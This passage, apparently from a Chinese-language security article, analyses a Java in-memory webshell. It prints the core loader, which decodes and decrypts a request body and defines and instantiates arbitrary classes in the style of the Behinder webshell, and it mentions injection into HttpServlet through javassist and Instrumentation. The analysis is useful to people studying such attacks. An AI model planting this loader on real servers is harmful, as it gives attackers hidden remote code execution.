 ```java
            try {
                    Class Base64 = loader.loadClass("sun.misc.BASE64Decoder");
			        Object Decoder = Base64.newInstance();
                    requestBody=(byte[]) Decoder.getClass().getMethod("decodeBuffer", new Class[]{String.class}).invoke(Decoder, new Object[]{request.getReader().readLine()});
                } catch (Exception ex) 
                {
                    Class Base64 = loader.loadClass("java.util.Base64");
                    Object Decoder = Base64.getDeclaredMethod("getDecoder",new Class[0]).invoke(null, new Object[0]);
                    requestBody=(byte[])Decoder.getClass().getMethod("decode", new Class[]{String.class}).invoke(Decoder, new Object[]{request.getReader().readLine()});
                }
						
			byte[] buf=(byte[])doFinalMethod.invoke(c,new Object[]{requestBody});
			java.lang.reflect.Method defineMethod=java.lang.ClassLoader.class.getDeclaredMethod("defineClass", new Class[]{String.class,java.nio.ByteBuffer.class,java.security.ProtectionDomain.class});
			defineMethod.setAccessible(true);
			java.lang.reflect.Constructor constructor=java.security.SecureClassLoader.class.getDeclaredConstructor(new Class[]{java.lang.ClassLoader.class});
			constructor.setAccessible(true);
			java.lang.ClassLoader cl=(java.lang.ClassLoader)constructor.newInstance(new Object[]{loader});
			java.lang.Class  c=(java.lang.Class)defineMethod.invoke((java.lang.Object)cl,new Object[]{null,java.nio.ByteBuffer.wrap(buf),null});
			c.newInstance().equals(obj);
		}

		catch(java.lang.Exception e)
		{
		   e.printStackTrace();
		}
		catch(java.lang.Error error)
		{
		error.printStackTrace();
		}
		return;
	}	
}

```

可以看到其实现的cmdshell还是使用的是冰蝎加密的那一套。

最后的话是配合javassist来实现运行时动态字节码修改，需要注意的是这里使用Instrumentation的redefineclasses方法，和上文介绍javaagent技术小demo使用的是相同的，同时这里选取的通用类是jakarta.servlet.http.HttpServlet：
